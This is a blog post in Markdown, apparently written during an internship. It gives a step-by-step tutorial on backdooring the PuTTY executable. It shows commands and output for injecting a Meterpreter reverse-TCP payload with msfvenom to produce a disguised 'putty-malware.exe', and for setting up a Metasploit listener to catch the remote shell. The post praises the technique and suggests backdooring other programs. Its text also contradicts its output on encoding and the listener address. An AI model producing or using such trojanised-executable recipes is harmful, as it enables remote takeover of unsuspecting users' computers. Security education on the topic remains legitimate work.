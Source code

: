 ```yaml
---
title: Backdooring EXE Files
date: 2021-06-07T20:20:16+05:30
lastmod: 2021-06-07T20:20:16+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/blog.png

categories:
  - tuv
  - amity
  - internship
tags:
  - msfvenom
  - putty
  - backdoor

draft: false
description: Backdooring EXE Files

---
```

## Backdooring EXE Files

### overview

Creating customized backdoored executables often took a long period of time to do manually as attackers. The ability to embed a Metasploit Payload in any executable that you want is simply brilliant. When we say any executable, it means any executable. You want to backdoor something you download from the internet? How about iexplorer? Or explorer.exe or putty, any of these would work. The best part about it is its extremely simple. We begin by first downloading our legitimate executable, in this case, the popular PuTTY client.

### Downloading Legit application

```bash 
wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
--2021-06-07 20:22:36--  http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
Resolving the.earth.li (the.earth.li)... 93.93.131.124, 2a00:1098:86:4d:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|93.93.131.124|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe [following]
--2021-06-07 20:22:36--  https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe
Connecting to the.earth.li (the.earth.li)|93.93.131.124|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://the.earth.li/~sgtatham/putty/0.75/w32/putty.exe [following]
--2021-06-07 20:22:37--  https://the.earth.li/~sgtatham/putty/0.75/w32/putty.exe
Reusing existing connection to the.earth.li:443.
HTTP request sent, awaiting response... 200 OK
Length: 1179880 (1.1M) [application/x-msdos-program]
Saving to: ‘putty.exe’

putty.exe                           100%[=================================================================>]   1.12M   380KB/s    in 3.0s    

2021-06-07 20:22:41 (380 KB/s) - ‘putty.exe’ saved [1179880/1179880]
```

Next, we use msfvenom to inject a meterpreter reverse payload into our executable, encode it three times using shikata_ga_nai and save the backdoored file into our webroot directory.

## Backdooring the Application

```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.100.101 -f exe -o putty-malware.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 1542144 bytes
Saved as: putty-malware.exe
```

### listener setup

```bash
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.100.101
LHOST => 192.168.1.101
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.100.101:443 
[*] Starting the payload handler...
```

### Screen Shot From Windows System

![msf-payload](https://i.imgur.com/UvxDbqe.png)

<!-- Amazon Ads-->

<script type="text/javascript" language="javascript">
      var aax_size='300x250';
      var aax_pubname = 'anir0y-21';
      var aax_src='302';
    </script>
<script type="text/javascript" language="javascript" src="https://c.amazon-adsystem.com/aax2/assoc.js"></script>
<!-- Amazon Ads-->

---
